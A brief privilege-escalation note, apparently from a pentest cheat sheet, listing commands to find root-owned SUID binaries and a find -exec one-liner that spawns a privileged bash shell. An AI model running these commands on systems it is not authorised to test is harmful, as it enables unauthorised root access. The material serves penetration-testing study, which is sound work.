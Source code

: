 ### setuid

`find /bin -perm -4000`

`find / -user root -perm -4000 -exec ls -ldb {} \;`

Eventually `strings` on the said SUID file to see its interactions with other files and modify those files instead.

Some SUID binaries have `-exec` options in their man page:
`/usr/bin/find zizi -exec /bin/bash -p \;`
